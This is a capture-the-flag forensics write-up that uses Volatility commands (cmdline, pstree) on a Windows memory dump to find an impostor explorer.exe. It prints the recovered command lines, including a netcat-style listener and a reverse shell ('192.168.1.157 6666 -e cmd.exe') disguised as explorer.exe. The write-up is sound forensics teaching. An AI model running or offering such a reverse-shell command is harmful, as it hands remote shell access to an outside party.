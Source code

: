 # Commands

![Forensics](https://img.shields.io/badge/Forensics--blueviolet?style=for-the-badge) ![Points - 100](https://img.shields.io/badge/Points-100-9cf?style=for-the-badge)

```txt
What was the command used with the malicious explorer.exe? Submit the entire command as the flag: flag{program.exe --options argument}.

Use the file from Captured Memories.
```

---

_You should probably take a look at [`Evil Twin`](../Evil%20Twin/README.md) before reading through this._

Ok, this challenge shouldn't be too hard, right? Simply take the PID of the imposter `explorer.exe`, use it in the `cmdline` command and _boom_ we're golden? - right? ... well... not quite... 

```bash
python2.7 vol.py -f mem.raw --profile=Win10x64_15063 cmdline -p 5448
```

```txt
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
explorer.exe pid:   5448
Command line : explorer.exe  -lnvp 6666
```

... while you can try and submit the output above as the flag. It won't work! ^^ This, at least for us, was the cause of some confusion at first, however, as it turns out, there another instance of the imposter `explorer.exe` was running at the time of the memory dump.

Using the `pstree` command like we did before, you can see it directly underneath the first instance. It's this process' command line you want to get.

```bash
python2.7 vol.py -f mem.raw --profile=Win10x64_15063 pstree
```

```txt
...    ...    ...    ... ...
... 0xffff878691456080:cmd.exe                       3944   4448      0 ------ 2020-06-26 15:37:19 UTC+0000
.... 0xffff87868fd63580:conhost.exe                  5432   3944      4      0 2020-06-26 15:37:19 UTC+0000
.... 0xffff878691762080:explorer.exe                 5448   3944      1      0 2020-06-26 15:43:14 UTC+0000
... 0xffff878691457580:cmd.exe                       4424   4448      1      0 2020-06-26 15:46:51 UTC+0000
.... 0xffff87868f773080:explorer.exe                 3100   4424      5      0 2020-06-26 15:48:21 UTC+0000
..... 0xffff87868f77b340:cmd.exe                     4640   3100      1      0 2020-06-26 15:48:21 UTC+0000
.... 0xffff87868f998080:conhost.exe                  6372   4424      3      0 2020-06-26 15:46:51 UTC+0000
                                                      ...    ...    ...    ... ...
```

So, just use the `cmdline` command on this PID (`3100`) ... and ... this time you get the correct commandline:

```bash
python2.7 vol.py -f mem.raw --profile=Win10x64_15063 cmdline -p 3100
```

```txt
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
explorer.exe pid:   3100
Command line : explorer.exe  192.168.1.157 6666 -e cmd.exe
```

The flag eventually was: `flag{explorer.exe 192.168.1.157 6666 -e cmd.exe}`
